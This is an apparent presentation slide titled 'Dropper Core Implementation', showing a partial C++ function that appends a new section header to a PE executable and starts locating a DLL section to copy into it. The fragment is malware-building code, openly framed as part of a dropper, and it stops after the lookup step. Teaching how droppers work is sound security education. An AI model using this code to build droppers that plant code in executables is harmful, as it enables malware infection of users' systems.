

Dropper Core Implementation- Add a new section
VOID AddSection(LPCSTR SectionName, LPCSTR SrcName)
{
	// 1. Get the address of the last section in the section table
	auto LastSection = &IMAGE_FIRST_SECTION(NtHeader(FileBase))
		[FileHeader(FileBase)->NumberOfSections - 1];

	// 2. Add the number of sections saved in the file header by 1
	FileHeader(FileBase)->NumberOfSections += 1;

	// 3. Find the position of the newly added section through the old last section
	auto NewSection = LastSection + 1;
	memset(NewSection, 0, sizeof(IMAGE_SECTION_HEADER));

	// 4.  Find the section we need to copy from the dll
	auto SrcSection = GetSection(DllBase, SrcName);